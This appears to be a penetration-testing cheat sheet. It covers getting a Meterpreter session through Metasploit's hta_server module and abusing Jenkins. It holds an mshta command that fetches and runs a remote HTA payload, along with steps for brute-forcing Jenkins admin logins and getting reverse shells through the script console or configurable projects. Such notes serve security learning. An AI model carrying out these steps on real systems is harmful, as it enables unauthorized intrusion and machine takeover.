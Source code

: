## Upgrading from a regular shell to Meterpreter
#### Module :
**1- exploit/windows/misc/hta_server**
-   This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell..
-   On attacker machine

```powershell
mshta.exe http://<URL>.hta
```
---
## Feature Abuse - Enterprise applications
- **Jenkins** : Runs as a local admin so getting a shell from it will let us own the machine we are on.
	-  Visit the url then  find the admin user then brute force the password
	- After you get in ,navigate to /script and get a groovy payload to execute commands or get a reverse shell.
	 - Suggested to try the username as the password or the reverse of the username as a password.
	- if you didn't manage to have access as an admin but you had access as a user you can abuse a project that you can "CONFIGURE" to get OS command execution.
	- Easy way to look for a Configurable project if there are many projects is to navigate to a project then adding ""/configure" and then bruteforce projects using burpsuite or whatever.
## Useful links
- [**More Resources for PrivESC**](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)